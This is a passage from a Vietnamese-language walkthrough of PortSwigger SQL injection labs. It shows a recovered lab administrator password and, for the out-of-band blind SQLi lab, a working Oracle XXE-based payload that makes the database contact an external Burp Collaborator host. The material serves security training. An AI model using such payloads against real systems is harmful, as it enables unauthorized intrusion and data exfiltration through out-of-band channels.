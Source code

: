 ```python
print(f"administrator:{password}")

```

Cuối cùng, chúng ta sẽ giải được bài lab bằng cách đăng nhập với `administrator:3lf409hp0t5cfg0gj3d9`.

## Lab 16: [Blind SQL injection with out-of-band interaction](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)

> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
>
> The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.
>
> To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

Bài lab này yêu cầu chúng ta khiến database thực hiện DNS lookup tới Burp Collaborator.

Chúng ta sẽ đổi giá trị của cookie `TrackingId` thành payload bên dưới, chú ý encode URL rồi gửi request.

```sql
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://4v0ombmznbre7v78btp19c635ublzcn1.oastify.com/"> %remote;]>'),'/l') FROM dual--
```

![image](images/lab-16/lab-16.png)

Sau đó, có thể quan sát thấy kết quả bên tab Collaborator:
